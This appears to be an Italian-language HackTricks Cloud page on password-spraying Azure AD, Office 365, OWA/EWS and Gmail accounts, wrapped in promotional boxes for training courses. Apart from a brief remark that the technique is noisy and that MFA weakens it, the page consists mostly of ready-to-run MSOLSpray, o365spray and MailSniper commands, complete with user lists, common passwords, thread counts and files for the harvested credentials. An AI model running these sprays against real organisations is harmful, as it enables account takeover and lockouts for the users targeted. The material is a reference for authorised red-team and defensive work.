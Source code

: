 # Az - Password Spraying

{% hint style="success" %}
Impara e pratica l'hacking su AWS:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Impara e pratica l'hacking su GCP: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Sostieni HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi trucchi di hacking inviando PR a** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Password Spray

In **Azure** questo può essere fatto contro **diversi endpoint API** come Azure AD Graph, Microsoft Graph, Office 365 Reporting webservice, ecc.

Tuttavia, nota che questa tecnica è **molto rumorosa** e il Blue Team può **catturarla facilmente**. Inoltre, la **complessità forzata della password** e l'uso del **MFA** possono rendere questa tecnica un po' inutile.

Puoi eseguire un attacco di password spraying con [**MSOLSpray**](https://github.com/dafthack/MSOLSpray)
```powershell
. .\MSOLSpray\MSOLSpray.ps1
Invoke-MSOLSpray -UserList .\validemails.txt -Password Welcome2022! -Verbose
```
Oppure con [**o365spray**](https://github.com/0xZDH/o365spray)
```bash
python3 o365spray.py --spray -U validemails.txt -p 'Welcome2022!' --count 1 --lockout 1 --domain victim.com
```
Oppure con [**MailSniper**](https://github.com/dafthack/MailSniper)
```powershell
#OWA
Invoke-PasswordSprayOWA -ExchHostname mail.domain.com -UserList .\userlist.txt -Password Spring2021 -Threads 15 -OutFile owa-sprayed-creds.txt
#EWS
Invoke-PasswordSprayEWS -ExchHostname mail.domain.com -UserList .\userlist.txt -Password Spring2021 -Threads 15 -OutFile sprayed-ews-creds.txt
#Gmail
Invoke-PasswordSprayGmail -UserList .\userlist.txt -Password Fall2016 -Threads 15 -OutFile gmail-sprayed-creds.txt
```
{% hint style="success" %}
**Impara e pratica l'hacking su AWS:**<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
**Impara e pratica l'hacking su GCP:** <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Sostieni HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi trucchi di hacking inviando PR a** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

